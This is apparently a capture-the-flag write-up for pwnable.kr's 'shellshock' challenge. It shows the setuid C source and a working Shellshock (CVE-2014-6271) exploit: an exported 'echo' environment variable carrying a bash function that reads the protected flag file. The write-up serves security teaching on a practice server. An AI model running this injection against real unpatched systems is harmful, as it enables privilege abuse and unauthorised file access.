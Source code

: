 ![logo](http://www.pwnable.kr/img/shellshock.png)

# shellshock
The tenth challenge from pwnable.kr

## Description
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)

## Solution

```sh
shellshock@ubuntu:~$ ls -la
total 980
drwxr-x---  5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 93 root root             4096 Oct 10 22:56 ..
-r-xr-xr-x  1 root shellshock     959120 Oct 12  2014 bash
d---------  2 root root             4096 Oct 12  2014 .bash_history
-r--r-----  1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x  2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x  2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x  1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--  1 root root              188 Oct 12  2014 shellshock.c
```

We'll need `shellshock` to open up `flag` for us. Seems we have a vulnerable `bash` program involved as well.

Let's open up `shellshock.c`

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

`echo` doesn't have an absolute path, so let's try modifying ENV variables.

```sh
shellshock@ubuntu:~$ export echo="() { cat /home/shellshock/flag; }"
```

### Capturing the Flag

```sh
shellshock@ubuntu:~$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
```
